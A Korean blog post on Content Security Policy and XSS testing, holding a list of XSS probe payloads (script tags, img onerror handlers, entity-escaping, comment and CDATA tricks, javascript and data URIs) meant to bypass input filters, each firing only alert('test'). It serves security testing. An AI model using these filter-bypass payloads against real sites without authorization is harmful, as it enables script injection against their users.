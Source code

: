 ```yaml
---
layout: post
title:  "CSP와 XSS테스트 코드"
summary: "사이트 간 스크립팅, 크로스 사이트 스크립팅"
author: yoo94
date: '2023-04-01 17:35:23 +0530'
category: WebSecurity
tags: websecurity
keywords: websecurity,csp,콘텐츠보안정책
thumbnail: https://i.namu.wiki/i/kq9NDC2Dsxbpqwn1L4dDwjo4fH7A9Rb76kbTrqpRirwq1VjPHDyr0Rp_P_Y0MhxFadKjqT5yBClhRDIWxapZNIdIrW8EkbT6KVv90O9wZqZ0ouYllY8gkIa39etQZDdg1d2fR6odJZ7_hYgF4FaLXg.webp
permalink: blog/XSS/
---
```


## CSP 콘텐츠 보안정책

<img src="/blog/postImg/Pasted image 20240205203449.png" alt="Pasted image 20240205203449.png" style="max-width:100%;">

<img src="/blog/postImg/Pasted image 20240205203510.png" alt="Pasted image 20240205203510.png" style="max-width:100%;">


#### xss테스트

테스트 방법
```text
<script>alert('test');</script>
<img src=x onerror=alert('test')>
<a href="javascript:alert('test')">Click me</a>

--------------------------------------------------------

이스케이프(escaping) 우회 시도
<scr\ipt>alert('test');</scr\ipt>
<img src=x onerror=ale&#x72t('test')>
<a href="jav&#x61script:alert('test')">Click me</a>

--------------------------------------------------------

이벤트 핸들러 우회 시도
<img src=x onerror=alert('test')>
<img src=x onerror="alert('test')">
<img src=x onerror=alert\('test'\)>

--------------------------------------------------------

HTML 주석을 이용한 우회 시도
<!--<img src=x onerror=alert('test')>-->
<!--><img src=x onerror=alert('test')><!-->
<![CDATA[<script>alert('test');</script>]]>

--------------------------------------------------------

스크립트 블록을 이용한 우회 시도:
<img src=x onerror="javascript:alert('test')">
<img src=x onerror="data:text/html,<script>alert('test');</script>">

```

